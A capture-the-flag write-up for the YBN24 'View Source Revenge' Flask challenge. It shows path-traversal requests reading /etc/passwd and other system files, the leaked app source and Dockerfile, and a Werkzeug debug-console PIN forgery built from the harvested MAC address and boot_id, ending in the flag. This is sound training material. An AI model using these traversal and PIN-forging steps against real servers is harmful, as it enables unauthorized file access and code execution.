



solved by  (with help from )

> It seems that Baba introduced a critical bug the last time he created this website. Dont worry though, he's fixed everything this time, at least that's what he says. I'm sure there's nothing else wrong with his website, right?
> https://view-source-revenge-viewsourcerevenge-chall.ybn.sg/

## First attempts

So we are given a website that just *reeks* of LFI (Local File Inclusion):



When I tried `flag.txt` we get an empty code box which seems kinda sus:

```

```

I then tried the usual `../../../../etc/passwd`, and got it:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
very_secure_username:x:1000:1000::/home/very_secure_username:/bin/sh
```

there was a user called `very_secure_username` which was interesting, but still nothing much

## Error

While doing the `etc/passwd` I randomly tried using a directory instead `../../../../etc/`



After trying other random things for a while I realized that we can use the console in debug mode - well nevermind:



I then managed to find `app.py` (which is `main.py`) and `Dockerfile` after a surprisingly long time (idk why I took so long to guess)

<details>
<summary>Source Code</summary>

# Run by Docker

from flask import Flask, request, render_template , redirect, url_for,render_template_string
import os 
app = Flask(__name__)
FLAG = open('flag.txt').read()

@app.route('/')
def index():
    return render_template('index.html')
    
@app.route('/view', methods = ["GET"])
def view():
    file_name = request.args.get('file_name')
    if not file_name:
        return redirect(url_for('index'))
    
    file_path = os.path.join(os.getcwd(), file_name)
    
    if not os.path.exists(file_path):
        return render_template('error.html')
    
    with open(file_path, "r") as f:
        content = f.read()
    
    content = content.replace(FLAG, "")

    return render_template("display.html",content = content,file_name = file_name)

if __name__ == '__main__':
    app.run(debug = True)



# Use an official Python runtime as a parent image
FROM python:3.11-slim

# Set the working directory in the container
WORKDIR /usr/src/app

# Copy the requirements file into the container
COPY requirements.txt ./

# Install any necessary dependencies
RUN pip install --no-cache-dir -r requirements.txt

# Create a new user and group with a secure name
RUN useradd -m very_secure_username

# Change ownership of the working directory to the newly created user
RUN chown -R very_secure_username:very_secure_username /usr/src/app

# Switch to the new user
USER very_secure_username

# Copy the application code into the container
COPY . /usr/src/app

# Set environment variables
ENV FLASK_APP=app.py
ENV FLASK_ENV=development
ENV FLASK_DEBUG=1

# Expose the port the app runs on
EXPOSE 5000

# Command to run the application
CMD ["flask", "run", "--host=0.0.0.0"]

</details>

## Debug Console Bypass

I found [this github page](https://github.com/wdahlenburg/werkzeug-debug-console-bypass) on how to bypass the debug console. They gave us a script, but we need to hunt around for some information:

1. Identify the user running the server

    From the Dockerfile we see it is `very_secure_username`

2. Find the path to Flask

    The path should look similar to `/usr/local/lib/python3.9/site-packages/flask/app.py`. Since the container is using python 3.11 we see that it is at `/usr/local/lib/python3.11/site-packages/flask/app.py`
3. Get the MAC Address of the interface the server is hosting on

    We can find it at `/sys/class/net/eth0/address` which gives:
    
    92:17:84:22:97:05
    
    They convert this into a number so we get 0x921784229705 which gives `160629698762501`
4. Now we need the `boot_id` + whatever is in "/proc/self/cgroup"`.strip().rpartition(b"/")[2]`

    The "/proc/self/cgroup" part just becomes nothing, so we get the boot id from `/proc/sys/kernel/random/boot_id`
    
    90eca5f1-105b-434e-ad02-135111eb1526
    

Putting it all together:


probably_public_bits = [
	'very_secure_username',# username
	'flask.app',# modname
	'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	'/usr/local/lib/python3.11/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
	'160629698762501',# str(uuid.getnode()), MAC
	# Machine Id: /etc/machine-id + /proc/sys/kernel/random/boot_id + /proc/self/cgroup
	'90eca5f1-105b-434e-ad02-135111eb1526'
]


We got a `Pin: 889-177-408`. Putting that into the console, we can simply print out the `FLAG`:


YBN24{F1@sK_DEBUg_CH4L1?_1AM3}
